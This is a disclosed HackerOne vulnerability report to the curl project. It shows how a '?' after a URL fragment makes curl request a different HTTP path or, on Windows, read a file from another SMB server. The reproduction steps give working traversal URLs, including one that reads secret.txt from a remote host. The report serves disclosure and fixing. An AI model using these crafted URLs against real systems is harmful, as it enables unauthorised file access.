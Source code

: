 # SMB access smuggling via FILE URL on Windows

## Report Details
- **Report ID**: 726117
- **URL**: https://hackerone.com/reports/726117
- **State**: Closed
- **Severity**: none
- **Submitted**: 2019-10-31T06:08:59.735Z
- **Disclosed**: 2021-01-17T23:12:26.127Z

## Reporter
- **Username**: fms
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:

While CURL 7.62 > parses URLs that have an ? (parameter separator) char after the # (fragment separator), CURL urlapi code treats the path with the hash part as it being the same one, this may allow some problem on specific protocols that may have a security impact.
On HTTP, an attacker may be able to modify original requests by appending "?" to the fragment part of the URL, see first example.
On FILE, CURL can be confused while requesting FILE urls to get a file from a different server that the user intended on Windows as the FILE protocol on Windows supports SMB. 

## Steps To Reproduce:
HTTP Example:
```
fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl -v "http://localhost/safepath/something#/../../anotherpath/somethingelse"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0

*   Trying ::1:80...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> GET /safepath/something HTTP/1.1
> Host: localhost
> User-Agent: curl/7.66.0
> Accept: */*
>

fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl -v "http://localhost/safepath/something#/../../anotherpath/somethingelse?"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0

*   Trying ::1:80...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> GET /anotherpath/somethingelse? HTTP/1.1
> Host: localhost
> User-Agent: curl/7.66.0
> Accept: */*
>
```

File example:
```
fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl "file://localhost/windows/win.ini"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    92  100    92    0     0  46000      0 --:--:-- --:--:-- --:--:-- 46000
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1


fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl "file://localhost/windows/win.ini#/../..//192.168.88.248/home/secret.txt"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    92  100    92    0     0  46000      0 --:--:-- --:--:-- --:--:-- 46000
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl "file://localhost/windows/win.ini#/../..//192.168.88.248/home/secret.txt?"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0   2750      0 --:--:-- --:--:-- --:--:--  2750
file on different smb server/path
```

## Impact

Modify expected request behavior  on several protocols

## Attachments
No attachments
